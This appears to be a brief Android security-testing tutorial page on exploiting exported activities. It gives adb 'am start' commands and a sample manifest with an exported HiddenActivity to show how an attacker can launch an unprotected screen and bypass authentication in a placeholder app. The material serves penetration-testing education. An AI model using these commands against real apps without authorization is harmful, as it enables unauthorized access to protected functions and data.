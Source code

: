 ```yaml
---
title: "Exploiting exported Activities"
weight: 8
---
```


# Exploiting exported Activities

If an activity involving sensitive information is exported, it could potentially bypass authentication mechanisms, allowing unauthorized access.

```sh
adb shell am start -n com.example.demo/com.example.demo.MainActivity
```

You need to start the activity with the intent filtered declared:

```xml
<activity android:name="com.example.demo.HiddenActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.QUICK_VIEW"/>
        <category android:name="android.intent.category.INFO"/>
    </intent-filter>
</activity>
```

```sh
adb shell am start -n com.example.demo/.HiddenActivity -a android.intent.action.QUICK_VIEW -c android.intent.category.INFO
```
